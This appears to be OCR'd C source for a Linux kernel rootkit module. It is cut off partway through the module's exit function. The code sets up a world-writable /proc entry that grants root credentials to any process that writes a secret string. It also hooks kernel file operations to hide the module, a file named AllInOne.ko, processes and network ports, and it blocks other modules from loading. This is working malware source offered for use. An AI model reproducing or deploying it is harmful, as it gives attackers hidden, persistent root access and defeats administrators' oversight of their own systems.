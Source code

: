 ```c
struct proc_dir_entry *entry;

ssize_t write_handler(struct file *filp, const char __user *buff, size_t count, loff_t *offp){
	char *kbuff;
	struct cred* cred;
	kbuff = kmalloc(count + 1, GFP_KERNEL);
	if(!kbuff){
		return -ENOMEM;
	}

	if(copy_from_user(kbuff, buff, count)){
		kfree(kbuff);
		return -EFAULT;
	}
	kbuff[count] = (char)0;
	if(strlen(kbuff) == strlen(AUTH) && \
		strncmp(AUTH, kbuff, count) == 0){
		cred = (struct cred *)__task_cred(current);
		cred->uid = cred->euid = cred->fsuid = GLOBAL_ROOT_UID;
		cred->gid = cred->egid = cred->fsgid = GLOBAL_ROOT_GID;
		
	}
	else{
	}

	kfree(kbuff);
	return count;
}

struct file_operations proc_fops = {
	.write = write_handler
};

//---------------------- init/exit ->
static int lkm_init(void){
//---------------------- block other module ->
	register_module_notifier(&nb);
//---------------------- hide self module ->
	set_f_op(iterate, SYS_MODULE_PATH, fake_iterate_1, real_iterate_1);
	set_file_seq_op_1(show, PROC_MODULE_PATH, fake_seq_show_1, real_seq_show_1);
	if(!real_iterate_1){
		return -ENOENT;
	}
//---------------------- hide AllInOne.ko ->
	set_f_op(iterate, ROOT_PATH, fake_iterate_2, real_iterate_2);
	if(!real_iterate_2){
		return -ENOENT;
	}
//---------------------- hide process ->
	set_f_op(iterate, PROC_PATH, fake_iterate_3, real_iterate_3);
	if(!real_iterate_3){
		return -ENOENT;}
//---------------------- hide port ->
	set_afinfo_seq_op(show, NET_ENTRY, SEQ_AFINFO_STRUCT, fake_seq_show_4, real_seq_show_4);
//---------------------- root backdoor ->
	entry = proc_create(NAME, S_IRUGO | S_IWUGO, NULL, &proc_fops);

    return 0;
}

static void lkm_exit(void){
//---------------------- block other module ->
	unregister_module_notifier(&nb);
```